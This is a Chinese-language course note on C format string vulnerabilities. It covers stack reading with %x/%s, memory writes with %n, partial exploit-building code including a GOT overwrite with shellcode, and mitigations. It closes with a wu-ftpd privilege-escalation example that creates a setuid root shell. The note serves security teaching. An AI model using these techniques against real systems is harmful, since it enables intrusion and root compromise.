

---
tags:
  - 软件安全
comments: true
---
# 格式化字符串
格式化输出：参数由一个格式字符串和可变数目的参数构成

从一个例子入手：
```c linenums="1" hl_lines="7"
#include <stdio.h>
#include <string.h>

void usage(char *pname) {
	 char usageStr[1024];
	 snprintf(usageStr, 1024,
			"Usage: %s <target>\n",
			pname);
	 printf(usageStr);
}

int main(int argc, char * argv[]) {
	if (argc < 2) {
		usage(argv[0]);
		exit(-1);
	}
}
```

??? info "变参函数"
	可变参数函数又称参数个数可变函数(也简称变参函数)，即函数参数数目可变。可以通过ANSI-C & UNIX System V 两种系统实现

	=== "stdargs"
		stdargs是ANSI C标准，通过一个部分参数列表跟一个省略号来声明，例如`int average(int first, ...)`
			```c title="使用stdargs实现average函数"
			int average(int first, ...) {
			   int count = 0, sum = 0, i = first;
			   va_list marker;
			   va_start(marker, first);
			   while (i != -1) {
				 sum += i;
				 count++;
				 i = va_arg(marker, int);
			   }
			   va_end(marker);
			   return(sum ? (sum / count) : 0);
			 }
			```

	=== "varargs"
		varargs运行在Unix System V，使用定义于`varargs.h`中的宏，例如`int average(va_list) va_dcl`
			```c title="使用varargs实现average函数"
			int average(va_alist) va_dcl {
				int i, count, sum;
				va_list marker;
				va_start(marker);
				for (sum = count = 0;
				   (i = va_arg(marker, int)) != -1;
					  count++)
				  sum += i;
				va_end(marker);
				return(sum ? (sum / count) : 0);
			 }
			```

!!! info "`__stdcall`、`__cdecl`和`__fastcall`"
	||`__stdcall`|`__cdecl`|`__fastcall`|
	|:------|:------:|:------:|:------:|
	|参数传递方式|从右向左压栈|从右向左压栈|左边开始的两个不大于4字节的参数分别放在ECX和EDX寄存器，其余的参数仍然从右向左压栈传递|
	|清理栈方|被调用函数清理|调用者清理|被调用者清理|
	|适用场合|Win API|c/c++ MFC默认方式，可变参数的时候使用|速度快|
	|C编译修饰约定|_functionname@number|_functionname|@functionname@number|

	注：functionname代表输出函数名，number代表其参数的字节数


## 格式化输出函数

!!! info ""
    前四个函数还有带"v"（如`vprintf()`）的版本，它们的功能完全相同，参数区别仅仅在于带了一个`va_list`类型的参数

=== "`fprintf()`和`printf()`"
	- 原型：`int fprintf(FILE *stream, const char *format [,argument]...)`
	- 按照格式字符串的内容将输出写入流(`stream`)中
	- `printf()`将写入`stdout`中

=== "`sprintf()`和`snprintf()`"
	- 原型：`int sprintf(char *string, char *format [,argument,...])`，`snprintf()`多一个参数size，指定可写入字符的最大值n
	- 当n非零时，输出的字符超过“n-1”的部分会被舍弃而不会写入数组中。并且，在写入数组的字符末尾会添加一个空字符。

=== "`syslog()`"
	- 原型：`int syslog(int priority, char *format, ...)`
	- 并没有定义在C99规范中，但是包含在SUSv2中
	- Windows不支持
	- 接受一个优先级参数、一个格式规范以及该格式所需的任意参数，并且在系统的日志记录（syslogd）中生成一条日志消息

## 格式化字符串[^1]

* 由普通字符和转换规范构成的序列
	- 普通字符被原封不动地复制到输出流中
	- 转换规范根据与实参对应的转换指示符对其进行转换，然后将结果写入输出流中。解析的顺序是从左向右

	!!! tip "转换规范构成"
		一个格式化字符串转换规范符合这个式子：`%[flags] [width] [.precision] [{length-modifier}] conversion-specifier.`
		例如`%-10.8ld`：将一个long int型的参数按照十进制格式打印，在一个最小宽度为10个字符的域中保持最少8位左对齐
		```text
		% -     10     .8         l                d
		  ↓     ↓       ↓         ↓                ↓
		flags  width precision length-modifier conversion-specifier
		```

* 参数过多，多余的参数被忽略；参数不足，结果未定义
* 转换指示符（conversion specifier）
	- 用途：指示所应用的转换类型
	- 常用的转换指示符：`%c`（字符型）、`%d`（整型）、`%f`（浮点型）、`%o`（八进制整数）、`%x`（十六进制整数）、`%s`（字符串）
* 宽度（width）
	- 指定输出字符的最小个数的十进制非负整数。如果输出的字符个数比指定的宽度小，就用空白字符补足
	- 如果使用星号（*）来指定宽度，则宽度将由参数列表中的一个int型的值提供

        ```c
		printf("%0*d", 5, 3); // (1)
		```

        1. 输出`00003`

* 精度（precision）
	- 用来指示打印字符个数、小数位数或者有效数字个数的非负十进制整数
	- 可能会引起输出的截断或浮点值的舍入
	- 如果精度域是一个星号（*），那么它的值就由参数列表中的一个int参数提供

        ```c
		printf("%.*f", 3, 3.14159265); // (1)
		```

        1. 输出 `3.142`

* Visual C++中的长度修饰符
	- l32 ~ `l`；l64 ~ `ll`

## 漏洞利用
### 缓冲区溢出

```c
char buffer[512];
sprintf(buffer,"Wrong command: %s\n",user); // (1)
```

1. 当`user`大于512-16(`"Wrong command: "`)-1字节时，就会越界写

### 可伸展的缓冲区
```c hl_lines="3"
char outbuf[512];
char buffer[512];
sprintf(buffer,"ERR Wrong command: %.400s", user);
//目前没有问题，因为转换说明符%.400s限制了只能写入400字节
sprintf(outbuf, buffer);
//user = %497d\x3c\xd3\xff\xbf<nops><shellcode>，包含百分号%，497 = 512 - 16 - 1
//0xbfffd33c覆盖掉了main的返回地址！
//在这个例子中，若要复制字符串，请用strcpy或strncpy
```

- 格式规范`%497d`指示函数`sprintf()`从栈中读出一个假的参数并向缓冲区中写入497个字符
	* 现在的outbuf = "ERR Wrong command: [497 chars][more contents...]"，至`%497d`为止已经盖满了`outbuf`，再接下来马上就要改动掉返回地址

### 输出流（`printf()`）
```c
int func(char *user) {
   printf(user);
}
```

=== "程序崩溃"
	* 在UNIX系统中，存取无效的指针会引发SIGSEGV信号，引起core dump
	* `printf("%s%s%s%s%s%s%s%s%s%s%s%s")`会触发无效指针存取或未映射的地址读取
		- 转换指示符%s显示执行栈上相应参数所指定的地址的内存

=== "查看栈内容"
	* 参数以逆序压入栈中
	* 参数在内存中出现的顺序与在`printf()`调用时出现的顺序是一致的
	```c hl_lines="3"
    int main(){
        char format[32];
       	strcpy(format,"%08x.%08x.%08x.%08x");
       	printf(format,1,2,3);
       	//will print "00000001.00000002.00000003.00132588"
       	printf(format);
       	//will print "00132588.00132580.7ffdf000.cccccccc"
    }
	```

	

	* 紧邻参数之后的内存中包含有调用函数的自动变量，后者包括format字符数组0x2e253038的内容
	* 随着每一个参数被相应的格式规范所耗用，参数指针的值也根据参数的长度不断递增
	* 格式化输出函数将不断输出内容，遇到格式字符串的空字节为止
		- 显示完当前函数的剩余自动变量后，就会显示函数的栈帧（包括返回地址和参数）
		- 也会显示调用函数的信息
		- 甚至扩展到显示整个栈

=== "查看内存内容"

	* 转换指示符`%s`显示参数指针所指定的地址的内存，将它作为一个ASCII字符串处理，直至遇到一个空字符
	* 还可使用`%x`使参数指针前向移动，距离仅受格式字符串的大小限制
	* 攻击者就能够在调用函数的自动变量中插入一个地址
		- 如果格式字符串被存储为一个自动变量，那么地址就能被插入在字符串的开始部分。
	* 例子

        ```c hl_lines="2"
		char format[32];
		strcpy(format,"%08x.%08x.%08x.%s");
		//strcpy(format,"%s");  //format = "addr[%x...%x]%s"
		printf(format,1,2,3);
		//printf(format);
		```
		- `%s`可以显示内存，直到`\0`结束
			* `\xdc\xf5\x42\x01%x%x%x%s`将显示从`0x0142f5dc`的内存直到遇到字节\0结束
		- `format = "addr[%x...%x]%s"`添加若干个`%x`以“前进”到`format`所在的地址
			* 因为`format`不一定与`&format`相邻

=== "覆写内存"

	* 格式化符`%n`：到`%n`位置已经输出的字符总数

        ```c hl_lines="2-3"
		int i;
		printf("hello%n\n",(int *)&i); //(1)
		printf("\xdc\xf5\x42\x01%08x.%08x.%08x%n",1,2,3); //(2)
		```

        1. after this, i = `5`, before `%n` we have already write `5` characters(h-e-l-l-o).
        2. after this, `[0x0142f5dc]=28(8x3+4)`

    * 格式化符`%u`：控制写入的字符个数（“宽度”）
		- 每一个格式字符串都耗用两个参数：
			1. 转换指示符%u所使用的整数值
			2. 输出的字符个数

        ```c hl_lines="2-3"
		int i;
		printf("%10u%n",1,&i); //(1)
		printf("%100u%n",1,&i); //(2)
		```

        1. i = `10`
        2. i = `100`

	* 写一个地址

		- 大多数CISC中：写入四个字节 → 递增地址 → 再写入四个字节 ...

            ```c
			printf("%16u%n%16u%n%32u%n%64u%n", 1, (int *) &foo[0], 1, (int *) &foo[1], 1, (int *) &foo[2], 1, (int *) &foo[3]);
			//计数器没有被重置，所以第一个%16u%n写入16，第二个%16u%n写32字节，以此类推
			//或者...
			printf("%16u%n",1,&foo[0]);
			printf("%32u%n",1,&foo[1]);
			printf("%64u%n",1,&foo[2]);
			printf("%128u%n",1,&foo[3]);
			```

			* 也可以在地址递减时，从高位内存写到低位内存
		- 利用代码

            ```c linenums="1" hl_lines="12 21 30 39"
			static unsigned int already_written; //(1)
			static unsigned int width_field; //(2)
			static unsigned int write_byte; //(3)
			static char buffer[256];
			already_written = 506;

			// first byte
			write_byte = 0x3C8;
			already_written %= 0x100;
			width_field = (write_byte - already_written) % 0x100;
			if (width_field < 10) width_field += 0x100;
			sprintf(buffer, "%%%du%%n", width_field);
			strcat(format, buffer);

			// second byte
			write_byte = 0x3fA;
			already_written += width_field;
			already_written %= 0x100;
			width_field = (write_byte - already_written) % 0x100;
			if (width_field < 10) width_field += 0x100;
			sprintf(buffer, "%%%du%%n", width_field);
			strcat(format, buffer);

			// third byte
			write_byte = 0x442;
			already_written += width_field;
			already_written %= 0x100;
			width_field = (write_byte - already_written) % 0x100;
			if (width_field < 10) width_field += 0x100;
			sprintf(buffer, "%%%du%%n", width_field);
			strcat(format, buffer);

			// fourth byte
			write_byte = 0x501;
			already_written += width_field;
			already_written %= 0x100;
			width_field = (write_byte - already_written) % 0x100;
			if (width_field < 10) width_field += 0x100;
			sprintf(buffer, "%%%du%%n", width_field);
			strcat(format, buffer);
			```

            1. 用于存储输出的字符个数（等于格式化输出函数的输出计数器的值）
            2. 存储有转换规范`%n`所需要的宽度域的值
            3. 包含下一个将要写入的字节值

		- 覆写内存

			```c
			unsigned char exploit[1024] = "\x90\x90\x90...\x90";
			char format[1024];
			strcpy(format, "\xaa\xaa\xaa\xaa");  //(1)
			strcat(format, "\xdc\xf5\x42\x01");  //(2)
			strcat(format, "\xaa\xaa\xaa\xaa");
			strcat(format, "\xdd\xf5\x42\x01");
			strcat(format, "\xaa\xaa\xaa\xaa");
			strcat(format, "\xde\xf5\x42\x01");
			strcat(format, "\xaa\xaa\xaa\xaa");
			strcat(format, "\xdf\xf5\x42\x01");
			for (i = 0; i < 61; i++) {
			   strcat(format, "%x"); //(3)
			}
			/* code to write address goes here */
			printf(format);
			```

            1. 哑整数
            2. 地址
            3. 将参数指针步进到格式字符串的起点以及第一个哑整数/地址对

### 国际化
- 格式字符串和消息文本通常被移动到由程序在运行时打开的外部目录或文件中
	* 攻击者可以通过修改这些文件的内容从而改动程序的格式和字符串的值
### 栈随机化
- 在Linux下，栈的起始地址为`0xC0000000`并且朝低内存方向增长
	* 随机化通过向栈中插入随机的间隙实现
	* 随机化加大了漏洞利用难度，但不能阻止漏洞利用
- 阻碍栈随机化
	* 覆写GOT入口或其他地址
		- 优势：独立于栈和堆这样的系统变量
	* 将shellcode插入到数据段或堆上的变量中
	* 参数指针和格式字符串的相对距离不变
		- 攻击者：找到参数指针与格式字符串的起始位置之间的距离，并插入适当数量的`%x`格式转换规范
	* 以双字格式写地址
		- 将一个shellcode的地址分成四次每次写入一个字节，各次调用之间对地址进行递增
		- 或者，每次写入一个字，甚至写入全部内容

- Linux利用若干例

    === "例1"

        ```c title="Linux 利用一例"
        #include <stdio.h>
        #include <string.h>

        int main(int argc, char * argv[]) {
            static unsigned char shellcode[1024] = "\x90\x09\x09\x09\x09\x09/bin/sh";
            int i;
            unsigned char format_str[1024];
            strcpy(format_str, "\xaa\xaa\xaa\xaa");
            strcat(format_str, "\xb4\x9b\x04\x08"); //(1)
            strcat(format_str, "\xcc\xcc\xcc\xcc");
            strcat(format_str, "\xb6\x9b\x04\x08"); //(2)
            for (i = 0; i < 3; i++) {
                strcat(format_str, "%x");
            }
            /* code to write address goes here */

            printf(format_str);
            exit(0);        //(3)
        }
        ```

        1. `exit()`函数的GOT入口的地址(`0x08049bb4`)被连接到格式字符串
        2. 该地址被+2后(`0x08049bb6`)也连接到格式字符串
        3. 控制权被移交至shellcode

    === "例2"

        ```c title="Linux 覆写内存"
        static unsigned int already_written, width_field;
        static unsigned int write_word;
        static char convert_spec[256];

        already_written = 28;

        // first word
        write_word = 0x9020;
        already_written %= 0x10000;

        width_field = (write_word-already_written) % 0x10000;
        if (width_field < 10) width_field += 0x10000;
        sprintf(convert_spec, "%%%du%%n", width_field);
        strcat(format_str, convert_spec);

        // last word
        already_written += width_field;
        write_word = 0x0804;
        already_written %= 0x10000;

        width_field = (write_word-already_written) % 0x10000;
        if (width_field < 10) width_field += 0x10000;
        sprintf(convert_spec, "%%%du%%n", width_field);
        strcat(format_str, convert_spec);
        ```

### 直接存取参数
- 数字式：`%n$`、`*m$`；非数字式：`%`、`*`
- Single UNIX规范[IEEE 04]允许转换被应用于参数列表中的格式之后的第n个参数上，而不是应用到下一个未使用的参数上。
- n是一个1到提供给函数调用的参数的最大数目之间范围内的十进制整数，它指定了参数的位置。
	* Red Hat Linux 9中该最大值是4096
	* 有些系统（如System V）有下限值，如9
	* GCC中可以通过`sysconf(_SC_NL_ARGMAX)`获得运行时的有效值
- 当使用数字式参数规范时，要想指定第n个参数，格式字符串中所有从第一个到第n-1个前导参数都要被指定。在包含有如`%n$`形式的转换规范的格式字符串中，参数列表中的数字式参数可视需要被从格式字符串中引用多次。

    ```c hl_lines="4-5"
	int i, j, k = 0;

	printf(
		  "%4$5u%3$n%5$5u%2$n%6$5u%1$n\n",  //(1)
		  &k, &j, &i, 5, 6, 7
      );          //(2)

	printf("i = %d, j = %d, k = %d\n", i, j, k); //(3)
	```

    1. `%4$5u` 取第四个参数（这里是常数`5`），将输出格式化为无符号的十进制整数，宽度为`5`；`%3$n` 将当前输出计数器的值（`5`）写到第三个参数(`&i`)所指定的地址；以此类推
    2. 输出 `"    5    6    7"` (其中5，6，7的宽度都是5)
    3. 输出 `"i = 5, j = 10, k = 15"`

- 参数存取内存写

    ```c hl_lines="13 23"
	static unsigned int already_written, width_field;
	static unsigned int write_word;
	static char convert_spec[256];

	already_written = 16;

	// first word
	write_word = 0x9020;
	already_written %= 0x10000;

	width_field = (write_word-already_written) % 0x10000;
	if (width_field < 10) width_field += 0x10000;
	sprintf(convert_spec, "%%4$%du%%5$n", width_field);
	strcat(format_str, convert_spec);

	// last word
	already_written += width_field;
	write_word = 0x0804;
	already_written %= 0x10000;

	width_field = (write_word-already_written) % 0x10000;
	if (width_field < 10) width_field += 0x10000;
	sprintf(convert_spec, "%%6$%du%%7$n", width_field);
	strcat(format_str, convert_spec)
	```

## 缓解策略

=== "动态格式字符串"
	```c
	#include <stdio.h>
	#include <string.h>

	int main(int argc, char * argv[]) {
		int x, y;
		static char format[256] = "%d * %d = ";

		x = atoi(argv[1]);
		y = atoi(argv[2]);

		if (strcmp(argv[3], "hex") == 0) {
			strcat(format, "0x%x\n");
		}
		else{
			strcat(format, "%d\n");
		}
		printf(format, x, y, x * y);
		exit(0);
	}
	```

=== "限制字节写入"
	- 指定一个精度域作为`%s`转换规范的一部分，如使用`sprintf(buffer, "Wrong command: %.495s\n", user)`而不是`sprintf(buffer, "Wrong command: %s\n", user)`
		* 静态字符串“贡献”了17个字节
		* 精度域为495确保结果字符串可以适合于512字节的缓冲

=== "使用更安全版本的格式化输出库函数"
    * 即函数名带n和_s的版本，它们不容易产生缓冲区溢出问题
	* 这些函数指定了写入的最大字节数（包括末尾的空字节在内）
	* GNU扩展函数：`asprintf()`和`vasprintf()`
		- 为字符串分配足够大的空间以容纳包括末尾空字符在内的输出内容，并通过第一个参数返回指向它的指针
	* C++程序员：`iostream`
		- 格式化输出：`<<`
		- 格式化输入：`>>`
		- 标准I/O流：`cin`、`cout`和`cerr`
		- 安全地打开文件

            === "`iostream`(安全)"

                ```c++ hl_lines="1" title="iostream"
                #include <iostream>
                #include <fstream>
                using namespace std;
                int main(int argc, char * argv[]) {
                    string filename;
                    ifstream ifs;
                    cin >> filename;
                    ifs.open(filename.c_str());
                    if (ifs.fail()) {
                        cerr << "Error opening " << filename << endl;
                        exit(-1);
                    }
                    ifs.close();
                }
                ```

            === "`stdio`(不安全)"

                ```c hl_lines="1" title="stdio"
                #include <stdio.h>
                int main(int argc, char * argv[]) {
                    char filename[256];
                    FILE *f;
                    char format[256];
                    fscanf(stdin, "%s", filename);
                    f = fopen(filename, "r"); /* read only */
                    if (f == NULL) {
                        sprintf(format, "Error opening file %s\n", filename);
                        fprintf(stderr, format);
                        exit(-1);
                    }
                    fclose(f);
                }

                ```

=== "测试"
	- 格式字符串bug的主要来源在于错误报告代码，往往被遗漏

=== "GNU C编译器选项"

    === "`-Wformat`"
		* 指示GCC编译器：
			1. 检查对格式化输出函数的调用
			2. 检查格式字符串
			3. 验证所提供的参数的类型和数目都是正确的
		* 不会报告带符号／无符号整数转换指示符与它们相应的参数之间不匹配的情况

	=== "`Wformat-nonliteral`"
		* 在格式字符串不是字符串字面量并且不能被校验的情况下增加了警告功能
			- 当格式化函数的格式参数为`va_list`时除外

	=== "`Wformat-security`"
		* 增加了对于可能造成安全问题的格式化输出函数调用的警告功能

=== "词法分析"
	- pscan
		* 自动扫描源代码中存在的格式字符串漏洞
		* 如果函数最后一个参数是格式字符串且不是静态字符串，则产生一个报告
		* 无法侦测传入参数时存在的漏洞

=== "静态污点分析"
    - Shankar描述了一个用于检测C程序中的格式字符串安全漏洞的系统，该系统使用了一个基于约束的类型推断引擎
    - 使用污点修饰符`tainted`，例如有下列标注：
        ```c
        tainted int getchar();
        int main(int argc, tainted char *argv[])
        ```

        * 则`getchar()`的返回值和程序的命令行参数都被标记为污点并作为污点值对待
        * 任何污点类型的表达式被用作了格式字符串，则用户将会被警告程序中存在潜在的漏洞

=== "调整变参函数的实现"
	```c hl_lines="1-5"
	#define va_start(ap,v) (ap=(va_list)_ADDRESSOF(v)+_INTSIZEOF(v)); \
	int va_count = va_arg(ap, int)
	#define va_arg(ap,t) \
	(*(t *)((ap+=_INTSIZEOF(t))-_INTSIZEOF(t))); \
	if (va_count-- == 0) abort();
	int main(int argc, char * argv[]) {
		int av = -1;
		av = average(5, 6, 7, 8, -1);  // works
		av = average(5, 6, 7, 8);  // fails
		return 0;
	}
	```

=== "Exec Shield"
	- 针对Linux IA-32，基于核心的安全特征
	- 栈指针增加一个随机值

=== "FormatGuard"
	- 通过插入代码实现动态检测，并且拒绝那些参数个数与转换规范所指定个数不匹配的格式化输出函数调用
	- 如果格式字符串使用的参数大于提供的实参，那么包装器函数将引发一个警报并终止进程
	- 如果攻击者使用的格式字符串能够匹配格式化输出函数的实参个数，那么FormatGuard将不能察觉到这种攻击

=== "Libsafe"
	- 可以阻止企图覆写栈返回地址的格式字符串漏洞和利用(2.0版本)
	- 以共享库的形式实现并且先于标准库载入内存
	- 检查：
		1. `%n`对应的参数是否引用了一个栈帧所引用的地址。
		2. 确定参数的初始地址是否和最终地址位于同一栈帧内。

=== "静态二进制分析"
	- 如果`printf()`只有一个参数并且该参数可变，那么这个调用也许就表示有可利用的漏洞存在
	- 检查函数的参数修正值（类似于`add esp,4`）

## 漏洞实例
* Wu-ftpd(CVE-2000-0573)
	- wu-ftpd 2.6.1之前版本的`insite_exec()`函数中存在一个格式字符串漏洞
    - site exec的参数未经验证，可能导致任意命令执行，用户可能会利用命令达到权限提升的目的

        ```c title="duh.c"
        main() {
           seteuid(0);
           setegid(0);
           system("/bin/cp /bin/sh ./sh");
           system("/bin/chmod 6755 ./sh");
        }
        ```

        ```bash hl_lines="5 7"
        $ make duh
        $ ftp -n localhost
        user: <userid>
        password: <passwd>
        ftp> quote site exec bash -c id
        # (1)
        ftp> quote site exec bash -c duh # (2)
        ftp> quit
        $ ./sh
        # (3)
        ```

        1. if vulnerable, 'uid=0, gid=0, euid=<yourid>, egid=<your-gids>' will be given
        2. 前述`duh.c`文件
        3. 原来可能不够权限运行shell，现在权限提升了，可以运行了

* CDE ToolTalk(CVE-2001-0717)
	- 在所有版本的CDE ToolTalk RPC数据库服务器上都存在一个可被远程利用的格式字符串漏洞

[^1]:转换规范的参考资料：https://docs.microsoft.com/zh-cn/cpp/c-runtime-library/format-specification-syntax-printf-and-wprintf-functions?view=vs-2019
